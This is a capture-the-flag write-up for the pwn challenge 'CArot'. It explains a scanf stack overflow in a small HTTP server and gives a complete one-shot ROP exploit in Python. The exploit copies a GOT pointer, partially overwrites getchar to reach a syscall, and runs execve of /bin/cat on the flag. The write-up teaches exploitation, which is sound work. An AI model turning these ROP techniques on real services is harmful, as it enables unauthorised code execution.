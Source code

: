 # CArot [pwn/320]

When dealing with proxy, it is often the case that you only have one "shot".

`nc 167.99.78.201 11451`

**Files**: `carot.tar.gz`:
```sh
$ tar ztf carot.tar*
distfiles/
distfiles/run_carot.sh
distfiles/run_proxy.sh
distfiles/xinetd_proxy_conf
distfiles/proxy.py
distfiles/libc-2.31.so
distfiles/carot.c
distfiles/carot
distfiles/xinetd_carot_conf
```
libc id is `libc6_2.31-0ubuntu9.2_amd64`

The remote service runs `proxy.py`, a python script that, roughly speaking, takes in <=4096 bytes from the user before throwing them all to `./carot`.

`carot` itself is a very, very simple HTTP binary server. Example usage:
```
$ ./carot <<EOF
> GET /index.html HTTP/1.1
>
> EOF
HTTP/1.0 200 OK
Content-Type: text/html

<html><head></head><body>It works!</body></html>
```
The main bug for `carot` is incredibly trivial and obvious by reading the source:
```c
#define BUFFERSIZE 512
char* http_receive_request() {
  ...
  char buffer[BUFFERSIZE] = {};
  scanf("%[^\n]", buffer);
  getchar();

  if (memcmp(buffer, "GET ", 4) != 0) return NULL;
  ...
}
int main() {
  setbuf(stdout, NULL);
  while (1) {
    char* fname = http_receive_request();
    ...
  }
}
```
The first line of input produces a buffer overflow very, very easily (512 < 4096), and also returns almost immediately so long as `GET ` isn't at the start of the input string.

The main challenge is in obtaining RCE using a single burst of input (the input _can_ contain multiple newlines, but it must all be sent before any bytes are received from stdout). This means no printing leaks & calculating libc addresses within pwntools.

## Solving
```python
from pwnscripts import *
context.libc = 'libc-2.31.so'
context.binary = 'carot'
r = remote('167.99.78.201', 11451)
```
There are about a hundred million ways to solve this challenge. Most of them center around the same general structure, though:
1. get a libc address to a known, writable location. Some people used the `stdout` pointer already available, but on my part, I copied an address from the GOT table to bss.
2. edit it to point to somewhere useful. This can mean pointing it to `system`, `execve`, a `one_gadget`, or (on my part) a `syscall` instruction.
3. put string arguments on .bss and call the libc address. Most people did something like `system("cat f*")`, but I ended up using `sys_execve` because I couldn't figure out a smart way to calculate the address of `system()/execve()/one_gadget` without bruteforcing (which you can do with `add` gadgets).

To get a libc address, I used a `mov rax, qword ptr [rbp-8]` and a `mov dword ptr [rbp-0xc], eax` gadget:

```python
POINTER = 0x602100 # where the libc address will be stored
R = ROP(context.binary)
R.raw(b'a'*0x210)
def move8(dst, src):  # must begin rop at pop rbp; ret
    DEREF_WRITE = 0x4008f1 # mov dword ptr [rbp - 0xc], eax; add rsp, 0x10; pop rbp; ret;
    DEREF_READ  = 0x400b7d # mov rax, qword ptr [rbp - 8]; add rsp, 0x10; pop rbp; ret;
    for offset in [0,4]:
        R.raw(src+8+offset) # rbp
        R.raw(DEREF_READ)
        R.raw(b'a'*0x10)    # padding
        R.raw(dst+12+offset)# rbp
        R.raw(DEREF_WRITE)
        R.raw(b'a'*0x10)    # padding
move8(POINTER, context.binary.got['getchar'])
```
Then, I used `scanf("%hhd")` to overwrite the last byte of `getchar()` to point to a syscall instruction:
def scanf(*args): R.call(context.binary.sym.__isoc99_scanf, args)
FORMAT_LINE = 0x4012f0 # pointer to "[^\n]" in the binary
FORMAT_CHAR = POINTER+8 # pointer to "%hhd", which will be written later
COMMAND = FORMAT_CHAR+0x10 # pointer to a shell executable. I will use /bin/cat
ARGUMENT = COMMAND+0x10 # pointer to command's argument. Here it is "flag.txt".
SCRATCH = ARGUMENT+0x10 # space to dump miscellaneous data
ARGS = POINTER+0x100 # to store argv[]
R.raw(0) # rbp
scanf(FORMAT_LINE, FORMAT_CHAR) # Write "%hhd%*c" to bss
scanf(FORMAT_CHAR, POINTER) # overwrite getchar to point to syscall
```
This is accompanied with appropriate calls to r.sendline() later:
```python
payload = R.chain()
assert b'\n' not in payload
r.sendline(payload)   
r.sendline(b"%hhd%*c")  # first scanf call
r.sendline(b'\xc9')     # second scanf
```
After that, I fill writable memory with arguments to form `"/bin/cat flag.txt"`:
```python
scanf(FORMAT_LINE, COMMAND) # write /bin/cat somewhere
R.getchar()
R.call(R.ret)
scanf(FORMAT_LINE, ARGS)    # write argv somewhere
R.getchar()
R.call(R.ret)
scanf(FORMAT_LINE, ARGUMENT)# write argv[1] == "flag.txt"
R.getchar()
R.call(R.ret)

# ... (omitted code)

r.sendline(b'/bin/cat')
r.sendline(fit(COMMAND, ARGUMENT, 0))
r.sendline(b'flag.txt')
```
And finally, I make a call to execve:
```python
scanf(FORMAT_LINE, SCRATCH) # write a string where len(SCRATCH) == 59 == SYS_execve
R.strlen(SCRATCH)   # this will set rax to 0x3b.
R.ret2csu(edi=COMMAND, rsi=ARGS, rdx=0, call=POINTER)

# ...

r.sendline(b'a'*59)
r.sendline(b'')
print(r.recvline())
```

`ACSC{buriburi_1d3dfb9bf7654412}`
